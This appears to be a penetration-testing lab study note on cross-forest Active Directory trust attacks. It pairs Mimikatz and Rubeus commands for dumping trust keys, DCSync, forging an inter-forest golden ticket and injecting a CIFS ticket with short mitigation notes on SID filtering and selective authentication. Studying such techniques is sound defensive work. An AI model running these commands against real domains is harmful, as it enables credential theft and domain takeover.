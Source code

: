 # Cross Forest Attacks

## General

- Same attack flow as with cross-domain attacks
- But: trust between forest must be established manually
- No implicit trust
- Cannot abuse SID because of SID filtering
- We only get the privileges the user we are impersonating has in the target forest

## Exploitation

```powershell
# Get trust key for the inter-forest trust
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\ecorp$"'

# Forge inter-forest TGT
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /user:Administrator /target:eurocorp.local /rc4:9a3dafc4139bc3fb7b6dade2a35d6f74 /service:krbtgt /ticket:forest_tgt.kirbi"'

# Request and inject TGS for CIFS service using Rubeus
.\Rubeus.exe asktgs /ticket:forest_tgt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt

# Check access
ls \\eurocorp-dc.eurocorp.local\SharedWithDCorp\
```

## Mitigation

### SID Filtering

- Avoid attacks which abuse SID history attribute across forest trust
- Enabled by default on all inter forest trusts. Intra forest trusts are assumed secured by default (MS considers forest and not the domain to be a security boundary)
- But, since SID filtering has potential to break applications and user access, it is often disabled

### Selective Authentication

- If configured in an inter-forest trust, users between trusts will not be automatically authenticated
- Invididual access to domains and servers in the trusting domain/forest should be given
